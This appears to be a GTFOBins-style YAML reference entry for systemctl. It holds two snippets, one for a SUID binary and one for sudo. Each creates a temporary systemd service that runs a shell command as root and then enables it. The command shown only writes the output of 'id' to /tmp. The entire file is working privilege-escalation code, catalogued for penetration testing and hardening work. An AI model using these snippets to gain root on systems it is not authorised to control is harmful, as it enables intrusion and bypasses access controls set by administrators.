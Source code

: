 ```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
  sudo:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
---
```


